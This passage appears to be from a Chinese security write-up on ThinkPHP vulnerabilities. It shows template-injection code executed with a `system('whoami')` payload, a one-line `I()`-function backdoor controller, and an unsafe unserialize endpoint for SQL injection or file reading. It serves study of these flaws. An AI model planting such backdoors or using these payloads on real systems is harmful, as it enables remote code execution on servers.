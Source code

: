 在`Application/Runtime/Cache/Home`会生成对应的模板文件

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203202115270.png)

2. `$this->fetch`

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $info = I('GET.info');
        $template=$this->fetch('',$info);
        var_dump($template);
        $info = I('GET.info','','');#没有对<和>进行转义
        $template=$this->fetch('',$info);
        var_dump($template);
    }
}
```

`info=<?php system('whoami');?>`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203202120318.png)

在`Application/Runtime/Cache/Home`会生成对应的模板文件

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203202120521.png)

3. 利用`I`函数留下后门

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        I('POST.info','',I('GET.info'));
    }
}
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203202146980.png)

## 反序列化sql注入/读取文件

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index(){
        $s=I('POST.s');
        unserialize(base64_decode($s));
    }
}
```
